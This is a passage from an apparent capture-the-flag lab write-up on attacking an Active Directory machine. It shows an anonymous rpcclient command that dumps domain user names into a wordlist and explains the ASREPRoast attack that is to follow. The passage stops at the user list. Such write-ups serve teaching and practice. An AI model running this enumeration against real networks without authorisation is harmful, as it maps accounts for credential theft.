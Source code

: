 ```bash
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## shell as svc-alfresco

with a list of valid users of the target machine which is an active directory an attack that can be performed is an [ASPREPRoast attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast), to do this I save the filtered output of the rpcclient command to save only the user string to a dictionary named users.

> ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute** 
> -hacktricks

```
$ rpcclient 10.10.10.161 -U "" -N -c "enumdomusers" | cut -d ":" -f2|cut -d" " -f1| tr -d "[]"  > users
$ cat users
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

